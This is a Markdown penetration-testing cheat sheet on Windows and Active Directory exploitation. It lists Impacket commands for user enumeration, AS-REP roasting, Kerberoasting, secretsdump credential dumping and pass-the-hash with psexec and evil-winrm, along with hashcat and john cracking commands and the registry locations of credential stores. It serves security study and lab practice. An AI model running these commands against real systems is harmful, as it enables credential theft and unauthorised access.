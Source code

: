 ```yaml
---
layout: default
title: Windows Exploitation
has_children: false
nav_order: 5
---
```

# Windows Exploitation
{:toc}

<hr />

## Impacket Toolkit
### Impacket LookupSID
- If SMB null sessions are allowed use Impacket to discover users through SID (Security Identifier) lookups
> SID enumerates both local machine and domain users
``` lookupsid.py anonymous@$IP ```
- SID enumeration with user credentials
```lookupsid.py domain/user:PasswordOrHash@10.10.50.150```

### Impacklet - GetNPUsers
Attempt to get a list of TGTs for users that have the specific property "Do not require Kerberos preauthentication" set (<b>UF_DONT_REQUIRE_PREAUTH</b>)
- If anything is discovered a John output will be generated for cracking
{: .important }
> Must have the domain added to your hosts file
``` impacket-GetNPUsers domainname/ -no-pass -usersfile users 
OR
impacket-GetNPUsers domain.local/ -usersfile ValidUserList.txt -format hashcat -outputfile HashcatHashes -dc-ip 10.10.150.205
```
- Once a TGT is obtain we crach the hash with john:
 ```john hash --wordlist=/usr/share/wordlists/rockyou.txt```
- Or we have hashcat output - crack the hashes:
```hashcat -a 0 -m 18200 HashcatHashes -o cracked.txt /usr/share/wordlists/rockyou.txt```
- Now repeat further enumartion with any usernames and passwords for services requiring authentication (and recheck any SMB shares)

<b>Request a TGS Ticket</b> (after SPN discovery - Impacket-GetUserSPNs, below)
```impacket-GetUserSPNs -dc-ip 10.10.220.126 domain.local/username -request-user spn-name```
- From this we will receive the TGS hash starting in '$krb5tgs$23$'
- Crack this TGS hash with Hashcat - specifically -m13100
```hashcat -a 0 -m 13100 tgs-hash /usr/share/wordlists/rockyou.txt```
- This will provide us with machine credentials and the ability to use evil-winrm (below)


### Impacket - GetUserSPNs
- Used to rab a password hash for user accounts that have an SPN (Service Principal name). If an SPN is set, it is possible to request a service ticket for the account.
- Impacket-GetUserSPNs can also be used for Kerberoasting without preauthentication
```impacket-GetUserSPNs -dc-ip $IP Domain-name.local/username```
> With a SPN (Service Principal Name) in hand, request a TGS Ticket with Impacket-GetUserSPNs

### Impacket - Secretsdump
- Retrieve the NTLM hashes from a machine
```secretsdump.py -just-dc domain.local/username:PasswordOrHash@10.10.161.33```

### Impacket - Psexec
- Use a Pass the Hash attack to gain elevated access to the system (i.e. we have a domain admin NTLM hash and pass it)
```psexec.py domain.local/administrator@10.10.150.150 -hashes aad3b435b51404eeaad3b435b51404ee:3d8asd8740dlf11238fbb21c72110a21```


## Windows Remote Management
### Evil-WinRM
- For Windows Remote Management functionality
{: .important }
> Credentials are required for Evil-WinRM (and the user have permissions)
- Confirm a user can login via winrm with <b>crackmapexec</b>
```crackmapexec winrm -u username -p 'password' -d domain.local 10.10.159.206```
- Example:
```evil-winrm -u 'username' -i $IP```
- Evil-WinRM accepts a user hash by using the -H flag
```evil-winrm -u 'Administrator' -i $IP -H 'c2597747aa5e43022a3a3049a3c3b09d'```

## Kerberoasting 
- See above (Impacket-GetUserSPNs)


# Registry Locations and Files
- Machine Boot Key: HKLM\System
- SAM file: HKLM\SAM
- LSA Secrets: HKLM\Security\Policy\Secrets
> LSA secrets are encrypted based on the system bootkey
- Number of Cached Domain Logons: HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\Winlogon\ 
- Actual Cached Credentials located at: HKLM\Security\Cache however these are blank in regedit - only the SYSTEM account can view them (you need a local admin account for SecretsDump)
> To view these manually try ```psexec-exe -i -s regedit.exe``` and ensure you are the SYSTEM user


#### [NOTES]
<ul>
<li> An LM Hash of 'aad3b435b51404eeaad3b435b51404ee' means the hash is null/blank (not in use)</li>
<li> NTLM:</li>
	<ul>
	<li> NT hashes are case sensitive </li>
	<li> Attacks include: Pass the Hash</li>
	``` secretsdump.py DOMAIN/USER@10.10.150.100 -hashes HASH```
	<li> NTLM hashes may be able to be utilised with Mimikatz or xfreerdp to RDP into systems that have restricted admin mode enabled</li>
	</ul>
</ul>

##### [REFERENCES]
- <a href="https://www.hackingarticles.in/impacket-guide-smb-msrpc/">Impacket Guide SMB MSRPC</a>
